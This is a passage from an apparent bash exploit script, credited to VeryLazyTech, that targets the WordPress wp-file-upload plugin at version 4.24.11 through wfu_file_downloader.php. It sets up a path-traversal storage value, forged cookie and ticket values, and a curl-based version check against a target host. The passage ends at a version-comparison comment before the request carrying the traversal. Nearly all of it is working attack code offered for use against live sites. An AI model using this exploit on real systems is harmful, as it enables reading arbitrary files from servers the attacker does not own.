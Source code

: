 ```bash
 \____|  \_/  |_____| |_____|\___/_____|  |_|      /_/ \___/   |_|/_/   
                                                                        
__     __                _                      _____         _     
\ \   / /__ _ __ _   _  | |    __ _ _____   _  |_   _|__  ___| |__  
 \ \ / / _ \ '__| | | | | |   / _` |_  / | | |   | |/ _ \/ __| '_ \ 
  \ V /  __/ |  | |_| | | |__| (_| |/ /| |_| |   | |  __/ (__| | | |
   \_/ \___|_|   \__, | |_____\__,_/___|\__, |   |_|\___|\___|_| |_|  
                 |___/                  |___/                       

                    @VeryLazyTech - Medium 
                    
EOF
}

# Call the banner function
banner

# Colors
RED="\033[1;31m"
GREEN="\033[1;32m"
YELLOW="\033[1;33m"
BLUE="\033[1;34m"
NC="\033[0m" # No Color

set -e

# Check for correct number of arguments
if [ "$#" -ne 2 ]; then
    printf "${RED}Usage: $0 <url> <command>${NC}\n"
    exit 1
fi

# Variables
HOST=$1
PLUGIN_PATH="/wp-content/plugins/wp-file-upload/"
VERSION_FILE="release_notes.txt"
EXPLOIT_PATH="wfu_file_downloader.php"
FILE_CODE="pQ1DyzbQp5hBxQpW"
TICKET="Hw8h7dBmxROx27ZZ"
HANDLER="dboption"
SESSION_LEGACY="1"
DBOPTION_BASE="cookies"
DBOPTION_USEOLD="0"
COOKIE_VALUE="cfyMMnYQqNBbcBNMLTCDnE7ezEAdzLC3"
STORAGE_VALUE="/../../../../../$2"
TIMESTAMP=$(date +%s)
ABSPATH="/"
VULNERABLE_VERSION="4.24.11"

# Check plugin version
printf "${BLUE}Checking plugin version for ${HOST}...${NC}\n"
VERSION_URL="http://${HOST}${PLUGIN_PATH}${VERSION_FILE}"
VERSION=$(curl -s "${VERSION_URL}" | grep -oP 'Version\s+\K[0-9]+\.[0-9]+\.[0-9]+' | head -n 1)

if [[ -z "${VERSION}" ]]; then
    printf "${YELLOW}Failed to retrieve plugin version. The site might not have the plugin installed.\n${NC}"
    exit 1
fi

printf "Detected plugin version: ${VERSION}\n"

# Compare versions
```